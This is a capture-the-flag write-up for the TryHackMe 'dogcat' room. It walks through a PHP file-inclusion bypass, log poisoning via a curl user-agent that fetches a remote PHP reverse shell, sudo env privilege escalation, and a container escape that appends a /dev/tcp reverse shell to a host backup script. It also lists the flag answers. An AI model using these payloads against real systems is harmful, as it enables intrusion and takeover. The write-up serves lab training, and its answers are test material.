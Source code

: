 # dogcat
https://tryhackme.com/room/dogcat

> I made a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

> export target=10.10.78.42

## What is flag 1?
There's a website on the IP that has a selection of "a dog" or "a cat" which return the following
- http://10.10.78.42/?view=dog
- http://10.10.78.42/?view=cat

I mess around with this and check for a local file inclusion by changing the view parameter to
_../../../../etc/passwd_: which doesn't give me any hints on LFI, however if I set it to _dog/../../../test_ the query goes through correctly.

```
Warning: include(dog/../../../.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'dog/../../../.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```

Due to the above output from the website I assume that either "cat" or "dog" must be contained within the parameter along with the fact that LFI is available however it appends ".php" to the end of our param value. I also found that the docroot for the server is _/var/www/html/_

I then researched LFI and how to attempt to view the php source behind the input and found this:
https://highon.coffee/blog/lfi-cheat-sheet/#php-wrapper-phpfilter

I then changed the value to the aprameter to 
`php://filter/read=convert.base64-encode/resource=./dog/../index`

This gave me a base64 string containing the php source code of the website.

I saved this to a file and converted it using `base64 -d base64.txt > index.html`

```php
<?php
    function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
    }
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
    if(isset($_GET['view'])) {
        if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
            echo 'Here you go!';
            include $_GET['view'] . $ext;
        } else {
            echo 'Sorry, only dogs or cats are allowed.';
        }
    }
?>
```

In the code above I'm able to bypass the extension being added by setting an empty value under the "ext" param. I can also bypass the filter checking if dog has been set by starting the value with _./dog/_

Therefore if I want to view a file in the / directory I do the following:
`?view=./dog/../../../<dir/file>&ext=`
 
This works because from the /var/www/html/ directory ../../../ takes the context to /

Earlier we saw that the web server is using apache2 (nmap port scan) so we're going to try to view the access logs.

`?view=./dog/../../../../../../../var/log/apache2/access.log&ext`

The output from this shows the logs as the following:
```
127.0.0.1 - - [18/Oct/2021:16:12:41 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
[my IP address] - - [18/Oct/2021:16:13:33 +0000] "GET /?view=./dog/../../var/log/apache2/access.log&ext HTTP/1.1" 200 714 "-" "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0"
```

Since we can render this log file and the user-agent is written to it we can perform some log poisoning to gain a shell on the web server.

To do this I used pentestmonkey's reverse php shell, which I called "shell.php". This is the file I will try and upload to the server.

Then I used curl to inject php script into the user-agent field on the apache logs using the below command:  
`curl http://10.10.78.42/\?view\=./dog/../../../../../../../var/log/apache2/access.log\&ext -A "<?php file_put_contents('shell.php', file_get_contents('http://<my ip>:10000/shell.php'))?>"`

From here I started a python web server on my machine using `python3 -m http.server 10000 --bind [my ip]` and then refresh the page to upload my file to the server.

I then start a netcat listener and navigate to /shell.php on the server to run the reverse shell.

After establishing a reverse shell connection I then used the `find` command to look for files containing the string "flag" within their filename.

I found the following:
/var/www/html/flag.php
/var/www/flag2_QMW7JvaY2LvK.txt

Answer: THM{Th1s_1s_N0t_4_Catdog_ab67edfa}

## What is flag 2?
This flag was contained within the /var/www/flag2_QMW7JvaY2LvK.txt file on the server
Answer: THM{LF1_t0_RC3_aec3fb}

## What is flag 3?
I checked what sudo privs I had on the www-data user and found the below
`$ sudo -l # (root) NOPASSWD: /usr/bin/env`

gtfobins: https://gtfobins.github.io/gtfobins/env/#sudo

I ran `sudo /usr/bin/env /bin/sh` which gave me access to the root user and there was a flag3.txt file within the /root directory which contained the third flag.

Answer: THM{D1ff3r3nt_3nv1ronments_874112}

## What is flag 4?
I wasn't able to find any more files on the machine so I decided to check if it was containerized by checking `/proc/1/cgroup`

`cat /proc/1/cgroup` -  
```
12:memory:/docker/6f1cb33f178163ce51a5b6c550765332853c55f1d295cd30b5a53a7683810ee8
11:cpuset:/docker/6f1cb33f178163ce51a5b6c550765332853c55f1d295cd30b5a53a7683810ee8
10:perf_event:/docker/6f1cb33f178163ce51a5b6c550765332853c55f1d295cd30b5a53a7683810ee8
9:net_cls,net_prio:/docker/6f1cb33f178163ce51a5b6c550765332853c55f1d295cd30b5a53a7683810ee8
8:blkio:/docker/6f1cb33f178163ce51a5b6c550765332853c55f1d295cd30b5a53a7683810ee8
7:freezer:/docker/6f1cb33f178163ce51a5b6c550765332853c55f1d295cd30b5a53a7683810ee8
6:rdma:/
5:pids:/docker/6f1cb33f178163ce51a5b6c550765332853c55f1d295cd30b5a53a7683810ee8
4:cpu,cpuacct:/docker/6f1cb33f178163ce51a5b6c550765332853c55f1d295cd30b5a53a7683810ee8
3:devices:/docker/6f1cb33f178163ce51a5b6c550765332853c55f1d295cd30b5a53a7683810ee8
2:hugetlb:/docker/6f1cb33f178163ce51a5b6c550765332853c55f1d295cd30b5a53a7683810ee8
1:name=systemd:/docker/6f1cb33f178163ce51a5b6c550765332853c55f1d295cd30b5a53a7683810ee8
```

Normally we'd see / instead of /docker/ if this was a normal machine. Also, as this says /docker/ we can assume that we are within a docker container so we sould try to escape a docker container. You can also tell by running `hostname` and looking for a container name  / label.

I needed some help here so I used linpeas from my machine and ran it to help me with some further enumeration.

linpeas has found the following information that I believed to be useful:

```
╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/opt/backups/backup.tar

╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 root root 2949120 Oct 18 17:07 /opt/backups/backup.tar
-rwxr--r-- 1 root root 69 Mar 10  2020 /opt/backups/backup.sh

```

As the /opt/backups/backup.tar file was modified within the last 5 minutes I can assume that there is a script running that modifies this file, then there's also a shell script /opt/backups/backup.sh which runs the following:

```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

The /root/container directory doesn't exist on this machine therefore I am making a assumption that this script is running on the root user on the host machine and not within the container.

Checking the files contained within backup.tar the launch script mounts /root/container/backup from the host machine to /opt/backups within the container.

Also, since these are bash scripts and they're not being ran within the container I can assume that the host is a linux machine. Therefore I will use bash to establish a reverse shell as I don't know what else is available on the host.

`sh -i >& /dev/tcp/10.9.180.40/4242 0>&1`

I added this to the end of the backup script using echo `echo "sh -i >& /dev/tcp/10.9.180.40/4242 0>&1" >> backup.sh` then started a netcat listener using `nc -lvnp 4242` and waited for the script to be ran again.

I was correct on my assumptions of it being a Linux machine and that docker was running on the root user.

I was able to find the final flag in /root/flag4.txt on the host machine.

Answer: THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
